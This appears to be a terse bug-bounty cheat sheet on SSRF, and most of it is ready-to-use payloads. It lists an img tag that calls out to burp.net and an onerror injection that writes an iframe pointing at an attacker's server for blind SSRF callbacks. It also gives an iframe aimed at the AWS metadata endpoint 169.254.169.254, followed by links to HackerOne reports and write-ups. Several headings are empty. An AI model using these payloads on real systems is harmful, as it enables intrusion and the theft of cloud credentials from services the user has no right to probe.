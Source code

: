 ## SSRF:


## Bind SSRF:


## Blind SSRF/XSPA:
For this vulnerability:
```
<img src="https://burp.net"></img>
"><img src="xasdasdasd" onerror="document.write('<iframe src=your server end point></iframe>')" />
```
```
https://hackerone.com/reports/517461
https://www.youtube.com/watch?v=MAKNAf1DJ0c
https://twitter.com/naman_1910/status/1346372557532848128
https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPSSRF.md
```

## Meta data:
<iframe src=http://169.254.169.254/latest/meta-data width=500 height=500>
  
## References:
https://medium.com/@theUnixe/exploiting-ssrf-vulnerability-to-gain-unauthorized-access-to-aws-data-619afef4e974
